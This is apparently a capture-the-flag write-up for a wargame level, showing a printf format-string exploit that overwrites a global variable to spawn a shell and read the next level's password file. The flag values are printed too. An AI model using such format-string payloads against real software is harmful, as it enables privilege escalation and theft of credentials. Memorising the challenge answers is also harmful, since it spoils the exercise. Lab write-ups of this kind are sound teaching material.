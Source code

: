 # Level 3
*password : 492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02*

## Analyze
```
$ scp -P 4242 level3@192.168.56.108:level3 .
```

```
  if (m == 0x40) {
    fwrite("Wait what?!\n",1,0xc,stdout);
    system("/bin/sh");
  }
```

`0x40` = 64\
`m` address : 0x0804988c

## printf exploit
- overwrite `m` value using printf
- %n: print nothing and put the number of character in a int
- use %n to put 64 in m

```
$ python -c 'print "\x8c\x98\x04\x08 %p %p %p %p %p %p"' | ./level3 
� 0x200 0xb7fd1ac0 0xb7ff37d0 0x804988c 0x20702520 0x25207025
```
address of `m` at parameter 4th.

```
$ python -c 'print "\x8c\x98\x04\x08%60u%4$n"' > /tmp/level3
$ cat /tmp/level3 - | ./level3
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```
